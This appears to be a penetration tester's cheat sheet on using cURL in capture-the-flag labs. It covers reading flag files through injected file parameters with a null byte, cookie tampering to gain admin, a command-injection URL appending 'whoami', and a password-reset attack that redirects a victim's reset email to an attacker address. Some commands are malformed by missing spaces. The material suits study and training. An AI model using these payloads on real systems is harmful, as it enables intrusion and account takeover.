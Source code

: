 ```yaml
---
title: cURL
description:  cURL is a command-line tool and library for transferring data using various network protocols
---
```


## Curl headers
```bash
curl http://10.10.129.69 -v
```

## POST Requests
```bash
Curl -X POST http://10.10.122.123/challenges/chal1.php -d 'method=GET&file=/etc/flag1'
curl -X POST http://10.10.14.127/challenges/chall3.php -d 'method=POST&file=/etc/flag3%00' --output -
```

## Cookie Tampering
```bash
┌──(attacker㉿kali)-[~]
└─$ curl http://10.10.75.26/cookie-test
>Not Logged In 

┌──(attacker㉿kali)-[~]
└─$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.75.26/cookie-test
>Logged In As A User     

┌──(attacker㉿kali)-[~]
└─$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.75.26/cookie-test
>Logged In As An Admin - FLAG{COOKIE_TAMPERING}  
```

## Command injection
curl is a great way to test for command injection because you are able to use curl to deliver data to and from an application in your payload
```bash
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
```

## Password Resets 

```bash
$ curl'http://10.10.75.26/customers/reset?email=robert%40acmeitsupport.thm'-H'Content-Type: application/x-www-form-urlencoded'-d'username=robert'
```
We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```bash
$ curl'http://10.10.75.26/customers/reset?email=robert%40acmeitsupport.thm'-H'Content-Type: application/x-www-form-urlencoded'-d'username=robert&email=attacker@hacker.com'
```
For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm

```bash
$ curl'http://10.10.75.26/customers/reset?email=robert@acmeitsupport.thm'-H'Content-Type: application/x-www-form-urlencoded'-d'username=robert&email={username}@customer.acmeitsupport.thm'
```
